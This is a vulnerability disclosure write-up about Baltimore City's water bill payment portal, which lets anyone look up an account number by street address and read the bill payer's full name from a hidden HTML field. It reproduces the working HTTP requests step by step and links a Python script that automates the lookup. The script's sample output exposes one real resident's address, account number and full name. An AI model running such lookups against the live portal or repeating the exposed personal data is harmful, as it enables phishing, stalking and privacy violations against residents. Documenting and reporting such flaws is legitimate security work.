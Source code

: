 # BaltimoreCity-WaterBill-InfoDisclosure
- The Baltimore City water bill portal suffers from an information disclosure vulnerability allowing anyone to view who is paying the bill for a particular address

## How it all started: 
Baltimore City public services are not known for their successes, quite the contrary. From a 2019 Ransomware attack that left key services crippled, to customer information being "hidden" on the Water Bill portal, the city truly needs a new, refreshing outlook on cybersecurity. This comes just after the Baltimore City public school systems fell prey to a massive data breach

https://en.wikipedia.org/wiki/2019_Baltimore_ransomware_attack
https://www.wbaltv.com/article/cyberattack-baltimore-city-public-schools-students-staff-cloak/64543595
https://www.verizon.com/business/resources/articles/s/lessons-from-the-robbinhood-ransomware-attack-on-baltimore/

- City residences are forced to pay their water bill on a monthly basis manually, as there is no auto-pay option, dispite auto-pay being almost universal across America in 2025.
- Customers can look up their account information via service address or 11 digit account number. While there is a "create account option" It is not provided on the main page. Accessing an account via street address (any address, unauthenticated) will yield you the users 11 digit account number. Personally, I believe account numbers should be provided only to the individual that lives at the residence, as this opens the door to phishing attacks, OSINT.
- As you can see above, and below, I have accessed the account information for a residence in Baltimore City without authenticating, or providing proof that I am a resident at the aforementioned address. Keep in mind, the owners name is no where to be found on the "Water Bill Details" page. We will see a bit later that this is not entirely true.
- When analyzing the requests in Burp Suite, we can see the first request for the main page looks very standard
````
GET /water HTTP/1.1
Host: pay.baltimorecity.gov
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
````
- The response is equally mundane, however its trivial to programmatically retrieve any service account based upon a street address, as we saw above albeit manually.

````
POST /water/_getInfoByServiceAddress HTTP/1.1
Host: pay.baltimorecity.gov
Cookie: .AspNetCore.Antiforgery.JY-etYUE_us=CfDJ8EBkMsT-U-RHiQLECtE6oX3-APJ8UP_7dagFAzSoAh6HXeLRm3ypQVDbOZwKMxVjN9narb_PssUyWDMQrkoa2jv6pJNNFk_cSq-3RHQd7dnJXYNC1lEX4kRZof_AC8SydPSG2m1BWAXmwe99MNaAEcY; vxu=H2d1XUyWvCg7GGuFeovv_A; vxr=6.46; vxp=1
Content-Length: 32
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://pay.baltimorecity.gov
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://pay.baltimorecity.gov/water
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

serviceAddress=<REDACTED>
````
- After obtaining the account number via a serviceAddress query, one can simply pull the entire account information by querying the api via serviceAccount, as seen below
````
POST /water/_getInfoByAccountNumber HTTP/1.1
Host: pay.baltimorecity.gov
Cookie: .AspNetCore.Antiforgery.JY-etYUE_us=CfDJ8EBkMsT-U-RHiQLECtE6oX3-APJ8UP_7dagFAzSoAh6HXeLRm3ypQVDbOZwKMxVjN9narb_PssUyWDMQrkoa2jv6pJNNFk_cSq-3RHQd7dnJXYNC1lEX4kRZof_AC8SydPSG2m1BWAXmwe99MNaAEcY; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8EBkMsT-U-RHiQLECtE6oX0xUs6stwrVsw_-zh2jG127fj0B7SIbquRnqsWhoFaKVW2QnmG3z64JzD2yT3Y4Ny1Zz5v30XjNAQMb95-HrN_kMVsbq93xIKx_wCL05JqM1TSnpSH7QyVL5hGBOoKykon3PNLQMs6KizNCI8OLaaJVnZPzWpfuPi0_OxqEMIDJRTBaGrjv0Hp40rRZetZ9ZCU; vxu=H2d1XUyWvCg7GGuFeovv_A; vxr=6.46; vxp=1
Content-Length: 208
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://pay.baltimorecity.gov
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://pay.baltimorecity.gov/water
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

AccountNumber=<REDACTED>&__RequestVerificationToken=CfDJ8EBkMsT-U-RHiQLECtE6oX0uWZpxUB0_1C_4rlEINI7Uxw43YMK2SmuO7PyXwnd3mXssu0lQcVmAGXbidXnGaDuNbvtCwaNDAcTGYTfjtu3g4nix4L8DyxcLOAXqz4WTrRD4Cq_3P02GIuJbDkLrwKs
````
- When this request is returned you will be re-directed and another GET request will be made. This request lines up with the "Water Bill Details" page that we previously saw when browsing the site manually. To my astonishment, the full name of the individual paying the water bill is hidden in the HTML response! The full name is not rendered in the HTML to the end user as the attribute is of type hidden.
````
GET /water/bill HTTP/1.1
Host: pay.baltimorecity.gov
Cookie: .AspNetCore.Antiforgery.JY-etYUE_us=CfDJ8EBkMsT-U-RHiQLECtE6oX3-APJ8UP_7dagFAzSoAh6HXeLRm3ypQVDbOZwKMxVjN9narb_PssUyWDMQrkoa2jv6pJNNFk_cSq-3RHQd7dnJXYNC1lEX4kRZof_AC8SydPSG2m1BWAXmwe99MNaAEcY; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8EBkMsT-U-RHiQLECtE6oX25egV1tivert_uOHC3tUXPNNRWpswDoi3DlV4nuAtWE-tLdn6JTziD8EdxmQ4SMThBK14zTLT0R7PmnDO9v8vYzzwP02IDq6K6Y6GkO4T-g4TCpWGkZnpuAVu5b4g-RlRxkhSKd_toccyiMMjsuHWiOYGZo26IFfLkNq0xbykTBUgSjmPnYbfbf8PyuYhgL-Y; vxu=H2d1XUyWvCg7GGuFeovv_A; vxr=6.46; vxp=3; vxl=1753033420
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://pay.baltimorecity.gov/water
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

// Response
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store
Pragma: no-cache
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/10.0
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: ALLOWALL
Set-Cookie: .AspNetCore.Mvc.CookieTempDataProvider=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/water; samesite=lax; httponly
X-Powered-By: ASP.NET
Date: Sun, 20 Jul 2025 17:44:55 GMT
Content-Length: 15971

--snip--
<div class="text-right">
<input data-val="true" data-val-required="The AccountNumber field is required." id="AccountNumber" name="AccountNumber" type="hidden" value="<REDACTED>" />
<input data-val="true" data-val-required="The ServiceAddress field is required." id="ServiceAddress" name="ServiceAddress" type="hidden" value="<REDACTED>       " />
<input data-val="true" data-val-number="The field Balance must be a number." id="Balance" name="Balance" type="hidden" value="46.1500" />
<input data-val="true" data-val-required="The CustomerName field is required." id="CustomerName" name="CustomerName" type="hidden" value="<REDACTED>          " />
<input id="BillDate" name="BillDate" type="hidden" value="7/14/2025 12:00:00 AM" /><input id="PenaltyDate" name="PenaltyDate" type="hidden" value="8/3/2025 12:00:00 AM" />                                        <button type="submit" class="btn btn-primary" id="btnPayOnline">&nbsp;Pay Online&nbsp;&raquo;</button>
</div>
--snip--
````
## Automation
After examining the requests and responses, I decided automating the owner name lookup via Python would be a very simple exercise. My decision to automate this script and write about the Information Disclosure issue is largely in part to Baltimore City not having a Bug bounty program, or any sort of contact information regarding website issues/vulnerabilities. After researching around, for longer than I care to admit, Maryland as a whole ran a Bug bounty program, however it was for a limited duration, and at the time of writing, they have shut the program down. I decided to reach out to some Baltimore City news outlets, in the hopes of potentially drawing attention to the issue, however no response was received. Thus, please see the below repo for the automated script:
- https://github.com/ice-wzl/BaltimoreCity-WaterBill-InfoDisclosure
## Running the Script
Running the script is as simple as providing a valid address in Baltimore City:
````
python .\get_name.py -h
usage: get_name.py [-h] -a ADDRESS

Get the name of a Baltimore City resident based on an address/account number, due to an information diclosure in the
Water Bill service.

options:
  -h, --help            show this help message and exit
  -a, --address ADDRESS
                        The address of the resident.

python3 .\get_name.py -a "1530 S Hanover St"
Anti-Forgery Cookie: {'.AspNetCore.Antiforgery.JY-etYUE_us': 'CfDJ8GzCaZHaEs5BtBOcODITSAxlBXA9xmM_Cm68CvhhflRXP6RtoWvah2YVL_7C0qoJxlXSY9hfWR8IYMTjZoRstd1Nn_GSZFBXFuvuxjS7QfvoTqn2oIwRd_8ljG_YGIe8O2mFL3i0AJ9eiRq50qdZPS8'}
Request Verification Token: CfDJ8GzCaZHaEs5BtBOcODITSAzGwFkbnMheH0_-0Mpq6vLjG5yFjDTOrXlrMjUu6wuD-ThhYkTBUNoYDzykOPZT5x1vaRB5rMu62I5RViqjMLKwMeJ6RSiW4aCCpTcvQVCJyOdhdL0NFJ5nieZqH6E1ulE
Account Number: 11000203544, Address: 1530 S HANOVER ST
Name associated with account number 11000203544: ABBY GUSTAITIS
````
- Contact: ice-wzl@protonmail.com